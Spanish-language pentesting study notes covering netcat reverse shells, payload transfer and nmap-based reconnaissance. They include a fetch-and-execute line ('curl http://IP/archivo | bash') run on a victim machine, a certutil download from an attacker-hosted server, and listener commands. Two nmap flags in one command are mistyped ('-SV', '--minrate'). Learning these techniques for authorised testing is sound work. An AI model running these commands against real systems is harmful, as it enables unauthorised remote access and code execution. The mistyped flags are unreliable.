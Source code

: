 ```yaml
---
icon: '2'
---
```


# Conceptos Básicos de Hacking

## Uso de Netcat para entablar una Reverse Shell

La página **revshells.com** es una herramienta en línea que permite generar fácilmente comandos para establecer **Reverse Shells**. Solo debes ingresar la dirección IP de la máquina atacante y el puerto, y seleccionar el tipo de shell y el sistema operativo. También ofrece opciones avanzadas como diferentes tipos de listeners y codificación. Es útil para realizar pruebas de penetración o auditorías de seguridad.

Puedes acceder a la página aquí: [revshells.com](https://www.revshells.com/).

1. Poner el comando adecuado para la **Reverse Shell** en la máquina víctima.
2. &#x20;Nos ponemos en escucha a través del **puerto** de la Reverse Shell que hayamos puesto.

```bash
nc -lvnp <puerto>
```

### PHP Reverse Shell

Un sencillo shell reverso en PHP desarrollado por [Pentestmonkey](http://pentestmonkey.net).

Este es un shell reverso simple en PHP que puede utilizarse durante pruebas de penetración para obtener acceso a un servidor objetivo.

## Cómo Compartir Archivos Con Servidor Http Con Python + Reverse Shell

1. Crear un archivo que sea un **payload**.
2. Ejecutamos el comando en la máquina atacante a escuchar&#x20;

```bash
sudo nc -nlvp <puerto>
```

3. En la máquina víctima hacemos el siguiente comando

```bash
curl http://IP/archivo | bash
```

## Compartir Archivos por la Red en Máquinas Windows

Si no tenemos acceso a curl o a wget hay otra herramienta que es CertUtil.

1. Crear archivo.
2. En la máquina atacante poner este comando

```bash
python3 -m http.server 80
```

3. Abrir la cmd.
4. Poner el comando

```bash
certutil -split -urlcache -f http://192.168.0.20/archivo
```

## Reconocimiento de la red con ARP-SCAN o NETDISCOVER

### ARP-SCAN

Hay que saber la interfaz de red. Esto se sabe con el comando

```bash
ifconfig
```

```bash
arp-scan -I eth0 --localnet
```

> Nota: los sistemas virtualizados empiezan su MAC por 08:00

Al utilizar el comando `ping`, es útil revisar el valor del **TTL** (Time to Live), ya que este puede indicar el sistema operativo del equipo destino:

* Si el TTL es **128**, es probable que el equipo esté usando **Windows**.
* Si el TTL es **64**, es probable que el equipo esté usando **Linux**.

```bash
ping <dirección IP>
```

> **Nota**: El TTL puede variar si hay routers o saltos intermedios que alteren este valor.

### NETDISCOVER

```bash
netdiscover -i eth0 -r 192.168.0.0/24
```

Hay que poner en el último octeto un 0/24.

### NMAP

```bash
nmap -sn 192.168.0.0/24 -oN ips_disponibles.txt
```

## Escaneos Básicos con NMAP

```
nmap 192.168.0.39
```

```bash
nmap -p- --open -sS -sC -SV --minrate 5000 -n -vvv -Pn 192.168.0.39 -oN escaneo
```

> Nota: en el examen aunque vaya más lento poner 2000.

**Parámetros:**

* **`-p-`**: Escanea todos los puertos (desde el 1 hasta el 65535).
* **`--open`**: Muestra solo los puertos que están abiertos.
* **`-sS`**: Realiza un escaneo SYN, también conocido como "escaneo sigiloso" o "half-open".
* **`-sC`**: Ejecuta scripts NSE por defecto (para obtener más información sobre el servicio).
* **`-sV`**: Detecta la versión de los servicios en los puertos abiertos.
* **`--min-rate 5000`**: Establece una tasa mínima de 5000 paquetes por segundo (para acelerar el escaneo).
* **`-n`**: No realiza resolución DNS (evita convertir IPs en nombres de dominio).
* **`-vvv`**: Aumenta la verbosidad (muestra más información durante el escaneo).
* **`-Pn`**: Desactiva el escaneo de ping (asume que el host está activo).
* **`192.168.0.39`**: La IP de destino a escanear.
* **`-oN escaneo`**: Guarda los resultados en un archivo de texto llamado `escaneo`.

## Detectar Vulnerabilidades Con Nmap

```bash
nmap --script "vuln" -p<puerto> IP
```

## Escaneo de Puertos bajo el Protocolo UDP

```bash
nmap -sU --top-ports 200 --min-rate=5000 -Pn IP
```
